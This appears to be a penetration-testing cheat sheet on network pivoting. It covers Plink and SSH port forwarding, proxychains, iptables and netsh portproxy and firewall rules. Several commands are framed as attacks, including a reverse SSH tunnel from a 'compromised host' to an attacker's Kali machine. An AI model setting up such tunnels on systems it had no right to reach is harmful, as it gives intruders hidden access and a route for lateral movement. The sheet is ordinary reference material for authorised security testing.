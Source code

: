 ### <--- Pivoting ---> ###

#### Plink Remote Port Forwarding ####

```plink -l $user -pw $password $attacking_machine_ip -R $attacker_port_to_open:127.0.0.1:$victim_port```

```plink.exe -R "remote port":127.0.0.1:"local port" root@"ipaddress"```

```$command 127.0.0.1:$attacker_port```

#### SSH Remote Port Forwarding ####

```ssh user@target_ip -R $remote_port:127.0.0.1:$local_port```

#### SSH Local Port Forwarding ###

```ssh user@target_ip -L $initiating_ip:$initiating_port:$target_ip:$target_port```

#### SSH Dynamic Port Forwarding ###

##### Create a Local SOCKS4 Proxy ####

*Example: ssh -D 8080 root@pwned.com*

```ssh -D $local_proxy_port -p $remote_port $target```

#### Using Proxychains ####

##### Create a reverse SSH tunnel to attacker from compromised host #####

```ssh -f -N -R 2222:127.0.0.1:22 root@kali```

#####  Create a dynamic application-level port forward on port 8080 on attacking machine #####

```ssh -f -N -D 127.0.0.1:8080 -p 2222 user@local```

##### Set proxychains  #####

```nano /etc/proxychains.conf```

```socks4 127.0.0.1 8080```

### Firewall rules ###

#### ----- IPTables ----- ####

*NOTE: https://www.andreafortuna.org/2019/05/08/iptables-a-simple-cheatsheet/*

```iptables -t nat -A PREROUTING -p tcp -d 1.2.3.4 --dport 422 -j DNAT --to 192.168.0.100:22```

#### ----- Netsh ----- ####

NOTE: http://woshub.com/port-forwarding-in-windows/

>> Important. This forwarding scheme works only for ```TCP``` ports. You WON'T be able to forward UDP ports this way. Also you CANNOT use 127.0.0.1 as connect address.

###### Check rules

```netsh advfirewall show allprofiles```

###### Create Rule

```netsh advfirewall firewall add rule name="Open Remote Desktop" protocol=TCP dir=in localport=3389 action=allow```

###### Port Forward

```netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport```

Example: ```netsh interface portproxy add v4tov4 listenport=3340 listenaddress=10.1.1.110 connectport=3389 connectaddress=10.1.1.110```

NOTE: *10.10.1.110 == Current IP address of local computer*

###### Check

```netstat -ano | findstr :$listenport```

###### Find out what process is listening to this port use its PID (in our example, the PID is 636):

```tasklist | findstr 636```

Important: *Make sure that your firewall (Windows Firewall or a third-party one that are often included into an antivirus software) allows incoming connections to the new port.*

###### Add a new Windows Firewall rule using this command:

```netsh advfirewall firewall add rule name=”forwarded_RDPport_3340” protocol=TCP dir=in localip=10.1.1.110  localport=3340 action=allow```

###### Display the list of forwarding rules in the system:

```netsh interface portproxy show all```

###### Tip. Portproxy settings can be obtained as follows:

```netsh interface portproxy dump```

###### Remove a Port Forwarding Rule:

```netsh interface portproxy delete v4tov4 listenport=3340 listenaddress=10.1.1.110```

###### Clear all current port forwarding rules:

```netsh interface portproxy reset```

###### Forward an incoming TCP connection to another computer:

```netsh interface portproxy add v4tov4 listenport=3389 listenaddress=0.0.0.0 connectport=3389 connectaddress=192.168.100.101```

###### Another portproxy feature is an opportunity to make it look like any remote network service is operating locally:

Example: *Forward the connection from the local port 5555 to the remote address 157.166.226.25 (CNN website):*

```netsh interface portproxy add v4tov4 listenport=5555 connectport=80 connectaddress= 157.166.226.25 protocol=tcp```

